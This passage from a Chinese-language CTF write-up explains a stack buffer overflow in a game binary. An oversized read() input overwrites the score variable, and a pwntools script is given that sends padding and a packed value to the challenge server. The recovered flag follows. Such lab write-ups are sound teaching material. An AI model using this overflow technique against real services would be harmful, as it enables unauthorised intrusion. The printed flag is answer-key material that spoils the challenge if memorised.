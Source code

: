 ```c++
      case 0x53u:
      case 0x73u:
        move_down_pre();
        rand_num();
        print_game();
        v7 = total;
        break;
      case 0x57u:
      case 0x77u:
        move_up_pre();
        rand_num();
        print_game();
        v7 = total;
        break;
      default:
        goto LABEL_11;
    }
  }
  your_flag(v6);
```

​	也就是说，程序用v7变量记录分数，超过10000分就会退出循环，执行you_flag()函数。	

​	由前面代码可见，buf变量通过read函数读入，而且读取长度为0x200，所以可能发生溢出。

​	我们知道，函数中的局部变量都会存在栈上，如果read函数中对buf输入的长度过长，就会覆盖栈上的其他变量，比如说v7。

​	光标放在变量上:

[![JvsZQS.png](https://s1.ax1x.com/2020/05/02/JvsZQS.png)](https://imgchr.com/i/JvsZQS)

![Jvsesg.png](https://s1.ax1x.com/2020/05/02/Jvsesg.png)

​	发现两者距离栈底(即rbp)的偏移分别为：-0xF和-0x4。

​	也就是说，我们在buf中先输入11(0xF-0x4 = 0xB)个字节来填满数组，然后再输入10000，就会将v7变量修改成10000分。然后就能跳出游戏循环，执行you_flag()函数。

​	脚本如下，需要先额外安装一个python库，[pwntools](https://www.cnblogs.com/pcat/p/5451780.html)。

```python
from pwn import *							#使用pwntools库
p = remote("121.41.113.245",10000)				#远程连接
p.recvuntil("Well,R U a true player?[Y/N]")		
payload = "A"*0xB
payload += p64(10000)
p.sendline(payload)
p.interactive()
```

flag：flag{a1cbd38a-d468-440d-b623-6214aad97f68}



### 0x02 . joke

​	本题也用到了[栈帧基础知识](https://segmentfault.com/a/1190000007977460)。
